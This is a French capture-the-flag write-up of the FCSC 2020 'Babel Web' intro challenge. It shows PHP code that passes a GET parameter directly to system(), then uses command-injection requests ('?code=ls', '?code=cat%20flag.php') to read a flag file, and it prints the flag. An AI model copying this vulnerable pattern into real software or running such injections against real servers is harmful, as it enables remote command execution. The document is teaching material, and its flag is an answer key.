

# fcsc2020-web-babel-web

> Titre: Babel Web  
> Auteur: [Cryptanalyse](https://twitter.com/Cryptanalyse)  
> Difficulté: Intro  

## Description

On vous demande d’auditer ce site en cours de construction à la recherche d’un flag.

## Objectif

L'objectif est d'analyser cette application web afin de découvrir le flag.

## Analyse

En accédant à la page principale de l’application, aucune information sensible n’est visible directement à l’écran.

La première étape consiste donc à inspecter le code source HTML de la page (`CTRL + U`)

```html
<html>
 <head>
  <title>Bienvenue à Babel Web!</title>
 </head> 
 <body>
  <h1>Bienvenue à Babel Web!</h1>
  La page est en cours de développement, merci de revenir plus tard.
  <!-- <a href="?source=1">source</a> -->
 </body>
</html>
```

Nous pouvons apercevoir un commentaire nous indiquant qu'il est possible d'accéder à une autre page à partir de la query `?source=1`


Ici, la page nous présente un code source php:

```php
<?php
    if (isset($_GET['source'])) {
        @show_source(__FILE__);
    }  else if(isset($_GET['code'])) {
        print("<pre>");
        @system($_GET['code']);
        print("<pre>");
    } else {
?>
```

Ce code montre que :

- le paramètre `?source` permet d’afficher le code source du fichier,

- le paramètre `?code` est passé directement à la fonction system(), ce qui permet l’exécution de commandes système.

Pour trouver le flag, on peut donc commencer par lister les fichiers présents sur le serveur à l’aide de la commande `ls` :

```bash
?code=ls
```


Le résultat indique la présence de deux fichiers :

- index.php
- flag.php

Nous cherchons alors à afficher le contenu de `flag.php` en utilisant la commande `cat`.
L’espace est encodé en URL avec `%20` :

```bash
?code=cat%20flag.php
```


Aucune sortie visible n’apparaît directement. Cependant, en inspectant le code source HTML de la page, on découvre que le flag y est présent.



## Flag

FCSC{5d969396bb5592634b31d4f0846d945e4befbb8c470b055ef35c0ac090b9b8b7}
